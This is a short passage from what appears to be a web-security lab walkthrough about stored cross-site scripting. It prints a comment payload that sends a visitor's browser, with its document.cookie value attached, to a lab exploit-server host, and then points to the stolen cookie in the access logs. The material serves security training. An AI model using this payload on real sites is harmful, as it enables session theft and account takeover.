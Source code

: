 As we already know that there is a XSS, let's simply leave a message in the comment in one of the posts

![picture 99](/assets/images/6975072d1a762add5aac6bb5df61a0bd29bf82bee7beaed27c37f8d17f1ad285.png)  

Payload:
```
<script>document.location='https://exploit-0a79008a03044c6dc0753916018d0031.web-security-academy.net/c='+document.cookie</script>
```

If we check our Access logs we'd see something there:

![picture 100](/assets/images/c03375535b5c517ff1221cdb1ccd00553065a6d9c5588b4dda34eee461f55a1b.png)  
